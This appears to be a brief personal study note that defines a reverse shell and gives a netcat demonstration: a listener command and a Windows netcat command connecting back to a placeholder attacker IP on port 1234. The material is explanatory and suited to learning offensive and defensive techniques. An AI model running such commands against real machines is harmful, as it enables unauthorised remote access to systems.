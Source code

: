 ```yaml
---
up: "[[Shells]]"
---
```


# Reverse Shell

- Reverse shell is a type of remote shell where the target connects to the attacker
- The cons of this technique is that the attacker ip address has to be leak on the target machine

## Demonstration

```bash
# listener
nc -lvnp 1234
# connect
nc.exe -nv <ip> 1234
```
